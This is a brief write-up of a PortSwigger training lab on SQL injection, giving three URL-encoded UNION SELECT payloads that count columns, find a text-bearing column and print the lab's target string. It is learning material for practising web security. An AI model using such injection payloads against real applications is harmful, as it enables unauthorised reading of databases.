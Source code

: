 # SQL Injection Part 2

## Portswigger Labs
### [Lab 3: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

**To solve: find column containing text and print gDi73c**

**STEP 1:**
Find number of colums
```html
'+UNION+SELECT+NULL,NULL,NULL--
```

**STEP 2:**
Find columns that contains text
```html
'+UNION+SELECT+NULL,'abcd',NULL--
```

**STEP 3:**
Print the text 'gDi73c'
```html
'+UNION+SELECT+null,+'gDi73c',+null--
```


